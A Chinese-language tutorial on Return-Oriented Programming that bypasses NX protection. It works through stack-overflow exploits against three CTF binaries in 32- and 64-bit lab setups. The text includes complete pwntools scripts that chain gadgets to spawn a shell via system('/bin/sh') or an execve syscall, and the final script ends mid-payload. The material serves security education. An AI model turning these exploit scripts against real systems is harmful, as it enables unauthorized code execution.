# ROP技术

内存页的RWX三种属性。显然，如果某一页内存没有可写(W)属性，我们就无法向里面写入代码，如果没有可执行(X)属性，写入到内存页中的ShellCode就无法执行。

查看某个ELF文件中是否有RWX内存页：

- 在静态分析和调试中使用IDA的快捷键`Ctrl + S`或者`Shift + F7`




- 使用Pwntools自带的checksec命令检查程序是否带有RWX段。


当然，由于程序可能在运行中调用`mprotect( )`, `mmap( )`等函数动态修改或分配具有RWX属性的内存页，以上方法均可能存在误差。

既然攻击者们能想到在RWX段内存页中写入ShellCode并执行，防御者们也能想到，因此，一种名为NX位（`No eXecute bit`）的技术出现了。这是一种在CPU上实现的安全技术，这个位将内存页以数据和指令两种方式进行了分类。被标记为数据页的内存页（如栈和堆）上的数据无法被当成指令执行，即没有X属性。由于该保护方式的使用，之前直接向内存中写入ShellCode执行的方式显然失去了作用。因此，我们就需要学习一种著名的绕过技术——ROP（`Return-Oriented Programming`, 返回导向编程）

顾名思义，ROP就是使用返回指令`ret`连接代码的一种技术（同理还可以使用jmp系列指令和`call`指令，有时候也会对应地成为`JOP/COP`）。一个程序中必然会存在函数，而有函数就会有`ret`指令。我们知道，`ret`指令的本质是`pop eip`，即把当前栈顶的内容作为内存地址进行跳转。

而ROP就是利用栈溢出在栈上布置一系列内存地址，每个内存地址对应一个`gadget`，即以`ret/jmp/call`等指令结尾的一小段汇编指令，通过一个接一个的跳转执行某个功能。由于这些汇编指令本来就存在于指令区，肯定可以执行，而我们在栈上写入的只是内存地址，属于数据，所以这种方式可以有效绕过NX保护。

## 使用ROP调用got表中的函数

### x86的情况

首先看x86下的程序，将`~/RedHat 2017-pwn1/pwn1`部署到32位环境中。
在IDA中查看函数，发现逻辑并不复杂，存在输入溢出(变量v1的首地址在`bp-28h`处，即变量在栈上，而输入使用的`__isoc99_scanf`不限制长度，因此我们的过长输入将会造成栈溢出。)：



checkse查看发现开启了NX保护：



程序开启了NX保护，所以显然我们不可能用shellcode打开一个shell。根据之前文章的思路，我们很容易想到要调用system函数执行system(“/bin/sh”)。那么我们从哪里可以找到system和“/bin/sh”呢？
第一个问题，搜索字符串，发现了system：




我们知道使用动态链接的程序导入库函数的话，所以我们可以在GOT表和PLT表中找到函数对应的项（地址）。

第二个问题，通过对程序的搜索并没有发现字符串`“/bin/sh”`，但是程序里有`__isoc99_scanf`，我们可以调用这个函数来读取`“/bin/sh”`字符串到进程内存中。

首先，我们需要知道将`“/bin/sh”`放到什么位置，因为将字符串作为参数传递给system时需要参数的地址，所以不能直接使用程序原本的变量。再者说程序原本定义的变量需要用来使程序发生两次溢出。

F9运行程序，然后通过快捷键`Ctrl + S`找到一段可以使用的位置：



我们看到0x0804A064开始有个可读可写的大于8字节的地址，且该地址不受ASLR影响，所以我们可以考虑把字符串读到这里。
或者不运行程序时通过快捷键`Ctrl + S`可以看到0x0804A030开始也有个可读可写的大于8字节的地址，且该地址不受ASLR影响。



接下来我们找到__isoc99_scanf的另一个参数“%s”，位于0x08048629




接着我们使用pwntools的功能获取到`__isoc99_scanf`在PLT表中的地址(获取`system`的地址也通过此方式），PLT表中有一段stub代码，将EIP劫持到某个函数的PLT表项中我们可以直接调用该函数。我们知道，对于x86的应用程序来说，其参数从右往左入栈。因此，现在我们就可以构建出一个ROP链。

```python
    #!usr/bin/python
    #coding=utf-8
    #

    from pwn import *

    context.update(arch = 'i386', os='Linux', timeout = 1)
    io = remote('172.17.0.2',10001)

    elf = ELF('./pwn1')

    input_addr = p32(elf.symbols['__isoc99_scanf'])
    sys_addr = p32(elf.symbols['system'])
    format_addr = p32(0x08048629)
    bin_addr = p32(0x0804A064)

    shellcode1 = 'A'*0x34
    shellcode1 += input_addr
    shellcode1 += format_addr
    shellcode1 += bin_addr

    print io.read()
    io.sendline(shellcode1)
    io.sendline("/bin/bash")
```

通过调试我们可以看到，当EIP指向retn时，栈上的数据和我们的预想一样，栈顶是plt表中__isoc99_scanf的首地址，紧接着是两个参数。



我们继续跟进执行，在libc中执行一会儿之后，我们收到了一个错误，0x0804A064处也没有成功写入字符串`"/bin/bash"`



我们知道call指令会将call指令的下一条指令地址压入栈中，当被call调用的函数运行结束后，ret指令就会取出被call指令压入栈中的地址传输给EIP。

但是在这里我们绕过call直接调用了`__isoc99_scanf`，没有像call指令一样向栈压入一个地址。此时函数认为返回地址是紧接着`input_addr`的`format_addr`，从而第一个参数就变成了`binsh_addr`。
调用`__isoc99_scanf`的情况：




构造ROP调用`__isoc99_scanf`的情况：





从两种调用方式的比较上我们可以看到，由于少了call指令的压栈操作，如果我们在布置栈的时候不模拟出一个压入栈中的地址，被调用函数的取到的参数就是错位的。所以我们需要改良一下ROP链。根据上面的描述，我们应该在参数和保存的EIP中间放置一个执行完的返回地址。鉴于我们调用scanf读取字符串后还要调用system函数，我们让__isoc99_scanf执行完后再次返回到main函数开头，以便于再执行一次栈溢出。改良后的ROP链如下：

```python
    #!usr/bin/python
    #coding=utf-8
    #

    from pwn import *

    context.update(arch = 'i386', os='Linux', timeout = 1)
    io = remote('172.17.0.2',10001)

    elf = ELF('./pwn1')

    input_addr = p32(elf.symbols['__isoc99_scanf'])
    sys_addr = p32(elf.symbols['system'])
    format_addr = p32(0x08048629)
    bin_addr = p32(0x0804A064)
    main_addr = p32(0x08048531)

    shellcode1 = 'A'*0x34
    shellcode1 += input_addr
    shellcode1 += main_addr
    shellcode1 += format_addr
    shellcode1 += bin_addr

    print io.read()
    io.sendline(shellcode1)
    io.sendline("/bin/bash")
```

调试发现`"/bin/bash/"`成功写入：



此时程序再次从main函数开始执行。由于栈的状态发生了改变，我们需要重新计算溢出的字节数(0x2c)。




然后再次利用ROP链调用system执行`system(“/bin/sh”)`。

完整的ROP链如下：

```python
  #!usr/bin/python
    #coding=utf-8
    #

    from pwn import *

    context.update(arch = 'i386', os='Linux', timeout = 1)
    io = remote('172.17.0.2',10001)

    elf = ELF('./pwn1')

    input_addr = p32(elf.symbols['__isoc99_scanf']) # plt表中scanf函数所在内存地址
    sys_addr = p32(elf.symbols['system'])  # plt表中的system函数所在的内存地址
    format_addr = p32(0x08048629) # 字符串%s的地址
    bin_addr = p32(0x0804A064)  # 写入字符串"/bin/bash"的地址
    main_addr = p32(0x08048531) # 主函数地址，用于第二次溢出调用system函数

    shellcode1 = 'A'*0x34
    shellcode1 += input_addr  # 调用scanf以从STDIN读取"/bin/sh"字符串
    shellcode1 += main_addr # scanf返回后到main函数
    shellcode1 += format_addr # scanf参数
    shellcode1 += bin_addr  # "/bin/sh"字符串所在地址


    shellcode2 = 'B'*0x2c
    sys_addr = p32(0x0804A018)  # 调用system函数
    shellcode2 += main_addr # 填补EIP的位置即system的返回地址，防止参数错位，地址可以任意
    shellcode2 += bin_addr  # 传入system的参数


    print io.read()
    io.sendline(shellcode1)
    sleep(0.1)
    # 等待程序执行，防止出错
    print io.read()
    io.sendline('/bin/sh')
    sleep(0.1)
    # 等待程序执行，防止出错
    print io.read()
    io.sendline(shellcode2)
    sleep(0.1)
    # 等待程序执行，防止出错
    io.interactive()

```

运行即可拿到shell：



### x64的情况

接着来看看x64下如何使用ROP调用got表中的函数，将`~/bugs bunny ctf 2017-pwn150/pwn150`部署到64位的环境中。
在IDA中可以发现溢出点在函数Hello()中



和x86的例子一样，开启了NX保护，需要找到`system`和`/bin/bash`才能拿到shell。程序在main函数中调用了自己定义的一个叫today的函数，执行了`system(“/bin/date”)`，那么system函数就有了。



至于`”/bin/sh”`字符串，虽然程序中没有，但是我们找到了”sh”字符串，利用这个字符串其实也可以开shell。不过这里需要注意的是"sh"的地址为`0x4003ef`而不是`0x4003eb`



现在有了栈溢出点，有了system函数，有了字符串”sh”，可以尝试开shell了。但首先我们要解决传参数的问题。和x86不同，在x64下通常前六个参数参数从左到右依次放在`rdi`, `rsi`, `rdx`, `rcx`, `r8`, `r9`，多出来的参数才会入栈（根据调用约定的方式可能有不同，通常是这样），因此，我们就需要一个给RDI赋值的办法。由于我们可以控制栈，根据ROP的思想，我们需要找到的就是`pop rdi; ret`，前半段用于赋值`rdi`，后半段用于跳到其他代码片段。
有很多工具可以帮我们找到ROP gadget，例如pwntools自带的ROP类，ROPgadget、rp++、ropeme等。
这里使用[ROPgadget](https://github.com/JonathanSalwan/ROPgadget)。通过`ROPgadget --binary` 指定二进制文件，使用grep在输出的所有gadgets中寻找需要的片段:`ROPgadget --binary pwn150 | grep "pop rdi"`



这里有一个小trick。首先，我们看一下IDA中这个地址的内容是什么。



我们可以发现并没有`0x400883`这个地址，`0x400882`是`pop r15`, 接下来就是`0x400884`的`retn`。
我们选择0x400882，按快捷键D转换成数据：



然后选择0x400883按C转换成代码:



我们可以看出来pop rdi实际上是pop r15的“一部分”。这也再次验证了汇编指令不过是一串可被解析为合法opcode的数据的别名。只要对应的数据所在内存可执行，能被转成合法的opcode，跳转过去都是不会有问题的。
现在我们已经准备好了所有东西，可以开始构建ROP链了。这回我们直接调用call system指令，省去了手动往栈上补返回地址的环节，脚本如下：

```python
    #!/usr/bin/python
    #coding:utf-8

    from pwn import *

    context.update(arch = 'amd64', os = 'linux', timeout = 1)
    io = remote('172.17.0.3', 10001)

    call_system = 0x40075f
    binsh = 0x4003ef
    pop_rdi = 0x400883

    payload = ""
    payload += "A"*88
    payload += p64(pop_rdi)
    payload += p64(binsh)
    # payload内容是在栈上的，“A”溢出到retn时，执行pop rdi，即将栈顶的数据放到rdi中，因为此时执行的时pop rdi，所以栈顶的内容为binsh，即“sh”，这样，就把“sh”写入到rdi作为system函数的参数了
    payload += p64(call_system)

    io.sendline(payload)
    io.interactive()

```

### 使用ROP调用int 80h/syscall

很多情况下目标程序并不会导入system函数。在这种情况下我们就需要通过其他方法达到目标。需要通过其他方式来获取shell，本部分是通过ROP调用`int 80h/syscall`来拿到shell。将`~/Tamu CTF 2018-pwn5/pwn5`部署到32位的环境中。
这个程序主要功能在`print_beginning()`实现。




这个函数有大量的`puts()`和`printf()`输出提示，要求我们输入`first_name`, `last_name`和`major`三个字符串到三个全局变量里，然后选择是否加入`Corps of Cadets`。不管选是还是否都会进入一个差不多的函数,但这个程序选择加入`Corps of Cadets`才能选择进入函数 `change_major()`



我们可以看到只有选择选项2才会调用函数`change_major()`，其他选项都只是打印出一些内容。进入change_major()后，我们发现了一个栈溢出：



发现了溢出点后，我们就可以开始构思怎么getshell了。这个程序里找不到system函数。但是我们用ROPGadget --binary pwn5 | grep “int 0x80”找到了一个可用的gadget



我们知道在[http://syscalls.kernelgrok.com/](http://syscalls.kernelgrok.com/ ) 上可以找到sys_execve调用，同样可以用来开shell，这个系统调用需要设置5个寄存器，其中`eax = 11 = 0xb, ebx = &(“/bin/sh”), ecx = edx = edi = 0.` “/bin/sh”我们可以在前面输入到地址固定的全局变量中(`first_name`,`last_name`)。接下来我们就要通过ROPgadget搜索`pop eax/ebx/ecx/edx/esi; ret`了。



`ROPgadget --binary pwn5 | grep "pop eax"`


通过这条命令我们可以找到两个gadget，但是第二个并不适用，因为地址中包含两个`0x0a`即换行，我们找到的溢出点是通过`gets()`获取输入的，这个函数默认以换行符作为结束，所以如果我们采用第二个gadget会造成payload被截断，从而不能获取shell，所以这里我们选择第一个gadget，但是我们还差`ecx`, `edx`,所以还需要再找一个gadget
`ROPgadget --binary pwn5 |grep "pop edx"`


好了，现在可以直接构造ROP链了：

```python
    #!usr/bin/python
    #coding=utf-8
    #

    from pwn import *

    context.update(arch = 'i386', os='Linux', timeout = 1)
    io = remote('172.17.0.2',10001)

    last_name=0x080f1aa0
    int80=0x08071005
    pop1=0x08095ff4
    pop2=0x080733b0

    payload="A"*32
    payload+=p32(pop1)
    payload+=p32(0x0b)
    payload+=p32(last_name)
    payload+=p32(0)
